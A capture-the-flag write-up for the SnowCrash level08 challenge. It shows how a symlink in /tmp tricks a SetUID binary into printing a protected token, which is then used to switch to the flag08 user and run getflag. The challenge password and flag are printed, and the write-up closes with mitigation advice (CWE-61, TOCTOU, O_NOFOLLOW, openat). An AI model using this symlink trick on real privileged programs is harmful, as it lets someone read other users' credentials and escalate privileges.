 ## 📄 Description

In this level, we are presented with a SetUID binary owned by the next level's user (flag08). Our objective is to exploit the binary in order to gain access to a protected token file owned by flag08. By leveraging a symbolic link vulnerability, we can trick the binary into reading the file on our behalf and retrieve the flag.

## 🧩 Challenge Overview

- We are given a SetUID binary owned by flag08:

```
-rwsr-s---+ 1 flag08 level08 8.5K level08
```

- The goal is to read a protected token file:

```
-rw------- 1 flag08 flag08 26 token
```

- Running ./level08 token returns:

```
You may not access 'token'
```

## ⚔️ Exploitation Strategy

The binary checks if the user can access the file passed as an argument but does not properly resolve symbolic links. Since we can't read the token file directly, we exploit this by:

1. Creating a symbolic link to the restricted file:

```
ln -s /home/user/level08/token /tmp/temp_tok
```

2. Passing the symlink to the binary:

```
./level08 /tmp/temp_tok
```

3. The binary follows the symlink and prints the contents of the token file:

```
quif5eloekouj29ke0vouxean
```

and now lets get out flag.

```
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

## 🛡️ Mitigation Advice (Real Systems)

In a real-world context, this vulnerability would be classified as:

- **Symlink Following Vulnerability** (CWE-61)
- **TOCTOU** (Time-of-Check to Time-of-Use) (CWE-367)

#### 🧼 Best Practices:

- Avoid symlinks with **O_NOFOLLOW** (prevent opening symlinks) or use **lstat()** (detect and block them before opening) for validation.
- Use **openat()** (Open a file relative to a directory file descriptor) and work with file descriptors to prevent TOCTOU.
